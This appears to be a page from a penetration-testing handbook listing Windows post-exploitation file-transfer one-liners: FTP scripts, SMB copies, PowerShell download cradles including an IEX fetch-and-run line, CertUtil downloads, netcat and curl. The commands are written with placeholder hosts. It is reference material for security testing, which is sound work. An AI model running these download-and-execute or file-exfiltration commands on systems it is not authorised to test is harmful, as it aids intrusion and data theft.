 # Windows

<pre><code><strong># FTP 
</strong>echo open &#x3C;IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET &#x3C;FILE> >> ftp.txt echo bye>> ftp.txt
ftp -v -n -s:ftp.txt

# SMB
copy \\&#x3C;IP>\&#x3C;PATH>\&#x3C;FILE> # Linux -> Windows
copy &#x3C;FILE> \\&#x3C;IP>\&#x3C;PATH>\ # Windows -> Linux

# Powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('&#x3C;URL>', '&#x3C;DESTINATION_FILE>')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('&#x3C;URL>')
powershell "wget &#x3C;URL>"

# Python
python.exe -c "from urllib import urlretrieve; urlretrieve('&#x3C;URL>', '&#x3C;DESTINATION_FILE>')"

# CertUtil
certutil.exe -urlcache -split -f "&#x3C;URL>"

# NETCAT
nc -lvp 1234 > &#x3C;OUT_FILE> 
nc &#x3C;IP> 1234 &#x3C; &#x3C;IN_FILE>

# CURL
curl &#x3C;URL> -o &#x3C;OUT_FILE>
</code></pre>

[PreviousReverse Shells](https://pentestbook.six2dez.com/exploitation/reverse-shells)[Next](https://pentestbook.six2dez.com/post-exploitation/linux)
